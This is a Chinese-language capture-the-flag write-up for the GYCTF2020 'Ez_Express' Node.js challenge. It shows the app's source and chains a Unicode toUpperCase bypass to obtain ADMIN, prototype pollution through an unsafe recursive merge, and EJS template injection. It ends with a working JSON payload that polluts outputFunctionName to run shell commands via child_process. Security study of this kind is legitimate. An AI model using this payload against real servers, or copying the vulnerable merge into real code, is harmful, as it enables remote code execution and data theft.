


# [GYCTF2020]Ez_Express

## 知识点

- `toUppercase`和`tolowercase`函数的绕过
- 原型链污染
- express框架的SSTI

## 解题



提示用ADMIN账号登录

有个www.zip的源码

```javascript
//index.js
var express = require('express');
var router = express.Router();
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
function safeKeyword(keyword) {
  if(keyword.match(/(admin)/is)) {
      return keyword
  }

  return undefined
}

router.get('/', function (req, res) {
  if(!req.session.user){
    res.redirect('/login');
  }
  res.outputFunctionName=undefined;
  res.render('index',data={'user':req.session.user.user});
});


router.get('/login', function (req, res) {
  res.render('login');
});


router.post('/login', function (req, res) {
  if(req.body.Submit=="register"){
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }
  
  }
  res.redirect('/'); ;
});
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
module.exports = router;

```

有个 merge 操作

```javascript
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
```

可能会利用原型链污染

register 的时候，会对 `req.body.userid` 进行安全检查

```javascript
function safeKeyword(keyword) {
  if(keyword.match(/(admin)/is)) {
      return keyword
  }

  return undefined
}
```

里面如果有 admin 好像就会被发觉，没问题的话，就在 req.session里面加一个

```javascript
req.session.user={
  'user':req.body.userid.toUpperCase(),
  'passwd': req.body.pwd,
  'isLogin':false
}
```

login 的时候

```javascript
if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
  req.session.user.isLogin=true;
}
```

直接匹配 ，`req.body.userid` 和 `req.body.pwd`

有个 /action ，不过只有满足这个条件，才能访问

```javascript
req.session.user.user=="ADMIN"
```

会调用

```javascript
req.session.user.data = clone(req.body);
```

从而进行原型链污染

已知 `nodejs` 的 `toUpperCase` 有一个漏洞

https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html

所以注册一个

```
admın
```

然后就登录上了

然后就可以访问 /action，从而调用 clone 方法

```javascript
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
req.session.user.data = clone(req.body);
```

访问 /info 的话，会对 `index.ejs` 进行渲染， `res.outputFunctionName` 将会填入其中

`req.body `默认是 undefined ，看了看代码，用了 这个

```javascript
app.use(express.json());
```

因而 post data 要写成 `json` 的形式

抓个包，改一下

```javascript
Content-Type: application/json
```

ejs.js 有个 `rce` 漏洞

在 ejs.js 中，有类似这样的代码

```javascript
fn = new Function("escapeFn , include , rethrow" , src);
return fn.apply()
```

而其中的 src ，类似于这样

```javascript
src = prepended +this.source + appended
prepended = "var "+opts.outputFunctionName + "__append"  + "sth" + opts.destructuredLocals[0] +opts.destructuredLocals[1] + opts.destructuredLocals[2] + 一直加到底 + "sth" +"with("+ opts.localsName

```

也就是说，可以通过改变 `Object.prototype.outputFunctionName` 来执行任意代码

```javascript
; return global.process.mainModule.require("child_process").execSync("nl /*").toString(); //
```

写个脚本得到 ，要送上的 json

```javascript
data = {"lua":"hello","Submit":"","__proto__":{"outputFunctionName":'a=0; return global.process.mainModule.require("child_process").execSync("nl /flag").toString(); //'}}
import json
print(json.dumps(data))
print(len(json.dumps(data)))
```

```json
{"lua": "hello", "Submit": "", "__proto__": {"outputFunctionName": "a=0; return global.process.mainModule.require(\"child_process\").execSync(\"nl /flag\").toString(); //"}}

```



